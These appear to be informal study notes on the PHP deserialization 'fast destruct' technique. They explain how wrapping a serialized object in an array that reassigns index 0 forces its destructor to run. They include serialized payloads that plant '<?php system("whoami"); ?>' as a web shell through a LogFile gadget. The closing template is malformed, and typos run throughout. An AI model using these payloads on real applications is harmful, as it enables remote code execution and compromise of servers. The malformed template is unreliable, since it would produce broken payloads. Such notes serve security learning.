Fast destruct:

if there is destruct method, but the code flow errors out thus destruct gets never called we can use fast destruct method

we wrap the payload in an array with arr[0] = pay and arr[0] = radnom, thus reassigning the same index, this will call the destruct method automatically.

normal pay : O:4:"User":2:{s:8:"username";O:7:"LogFile":2:{s:8:"filename";s:12:"/tmp/test/ok";s:8:"username";s:26:"<?php system("whoami"); ?>";}s:7:"isAdmin";b:1;}

object with two value but it fails the destuct never gets called

pay warpped in array: a:2:{i:0;O:4:"User":2:{s:8:"username";O:7:"LogFile":2:{s:8:"filename";s:12:"/tmp/test/ok";s:8:"username";s:26:"<?php system("whoami"); ?>";}s:7:"isAdmin";b:1;}i:0;i:0;}

now the pay is placed in arr[0] = pay and then replaced wiht 0 again arr[0] = 0

thus this reassignin will call destruct, this shoudl be done amanually if you directly reassign it in the code it will just add the replaced version in pay

thus manually add a:2{i:0;<object payload>i:0;i0;}
